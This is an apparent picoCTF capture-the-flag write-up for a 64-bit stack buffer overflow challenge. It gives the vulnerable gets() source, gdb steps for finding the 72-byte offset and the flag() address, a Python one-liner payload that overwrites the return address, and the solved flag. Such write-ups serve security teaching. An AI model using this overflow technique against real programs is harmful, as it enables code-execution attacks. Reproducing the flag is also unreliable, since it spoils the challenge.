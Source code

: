 
# Binary Exploitation - NewOverFlow-1 (200 points)

## Challenge

*Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_1_39d472170ee5080cac1226374a7101a7 on the shell server. Source.*

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

## Flag

picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_cfe23f2b}

## Walkthrough

This challenge is based on the same vulnerability than OverFlow 1 : the function void `void vuln()` is vulnerable to a buffer overflow because of a call to `gets()` (no boundaries). 

```C
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}
```

First let's get the start address of `void flag()` using gdb:

```bash
root@kali:~/Downloads# gdb ./vuln
[...]
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x0000000000400767  flag
0x00000000004007cc  vuln
0x00000000004007e8  main
[...]
```

So the return address has to be set to 0x0000000000400767.

Now, time to play a little with GDB to get the size of our overflow:

```bash
root@kali:~/Downloads# gdb ./vuln
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x00000000004007cc <+0>:     push   %rbp
   0x00000000004007cd <+1>:     mov    %rsp,%rbp
   0x00000000004007d0 <+4>:     sub    $0x40,%rsp
   0x00000000004007d4 <+8>:     lea    -0x40(%rbp),%rax
   0x00000000004007d8 <+12>:    mov    %rax,%rdi
   0x00000000004007db <+15>:    mov    $0x0,%eax
   0x00000000004007e0 <+20>:    callq  0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leaveq 
   0x00000000004007e7 <+27>:    retq   
End of assembler dump.
```

We are going to set a breakpoint just after the *gets()* call, and then display the stack content:

```bash
(gdb) break *0x00000000004007e5
Breakpoint 1 at 0x4007e5
(gdb) run <<< $(python -c "print('\x41'*8)")
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41'*8)")
Welcome to 64-bit. Give me a string that gets you the flag: 

Breakpoint 1, 0x00000000004007e5 in vuln ()

(gdb) x/12gx $rsp
0x7fffffffe130: 0x4141414141414141      0x00007ffff7fb5700
0x7fffffffe140: 0x0000000000400928      0x00007ffff7e6f1da
0x7fffffffe150: 0x0000000000000000      0x00007fffffffe1a0
0x7fffffffe160: 0x0000000000400680      0x00007fffffffe280
0x7fffffffe170: 0x00007fffffffe1a0      0x000000000040084a
0x7fffffffe180: 0x00007fffffffe288      0x0000000100400680
```

*buf* starts at 0x7fffffffe130, and our return address is at 0x7fffffffe178 (because at this adress we found the address of the next instruction in *main()* right after *vuln()*). So we have to write (0x7fffffffe178 - 0x7fffffffe130) characters before the return address. Let's try it:

```bash
(gdb) run <<< $(python -c "print('\x41'*72 + '\x67\x07\x40')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41'*72 + '\x67\x07\x40')")
Welcome to 64-bit. Give me a string that gets you the flag: 

Breakpoint 1, 0x00000000004007e5 in vuln ()
(gdb) x/12gx $rsp
0x7fffffffe130: 0x4141414141414141      0x4141414141414141
0x7fffffffe140: 0x4141414141414141      0x4141414141414141
0x7fffffffe150: 0x4141414141414141      0x4141414141414141
0x7fffffffe160: 0x4141414141414141      0x4141414141414141
0x7fffffffe170: 0x4141414141414141      0x0000000000400767
0x7fffffffe180: 0x00007fffffffe288      0x0000000100400680
[...]
```

It fits perfectly, and the return address is overwritten. Now in real conditions:

```bash
m3oow@pico-2019-shell1:/problems/newoverflow-1_1_39d472170ee5080cac1226374a7101a7$ (python -c "print('A'*72 + '\x68\x07\x40\x00\x00\x00\x00\x00')"; cat -) | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_cfe23f2b}
```